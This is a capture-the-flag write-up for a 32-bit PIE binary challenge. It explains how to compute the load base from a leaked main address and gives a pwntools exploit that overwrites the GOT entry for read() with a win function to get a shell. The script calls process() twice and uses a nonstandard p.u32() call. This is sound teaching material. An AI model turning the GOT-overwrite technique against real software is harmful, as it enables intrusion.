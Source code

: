 # PIE GOT
### 📄 Description
This is a position-independent binary which gives you a module address, and a trivial write-what-where.
Can you spawn a shell?

## 🔑 Solution
This challenge is very similar to the previous but this time we have a PIE executable so we don't know where the GOT will be when the program is loaded in memory. Luckily the program leaks the address of the start of the main function, using that we can calculate the random offset at which the executable is loaded and thus obtain the addresses of the GOT and of out target function. We can then use those addresses to pwn the binary in the same way as the previous challenge.

```python
from pwn import *

context.binary = "./challenge"
p = process()

e = context.binary
p = process()

main_address = p.u32()

log.info(f"leaked main address {hex(main_address)}")

base_address = main_address - e.functions["main"].address

log.info(f"executable base {hex(base_address)}")

e.address += base_address

log.info(f"read() address {hex(e.got['read'])}")
log.info(f"target function address {hex(e.functions['oh_look_useful'].address)}")

p.send(p32(e.got["read"]))
p.send(p32(e.functions["oh_look_useful"].address))
p.recvline()
p.interactive()
```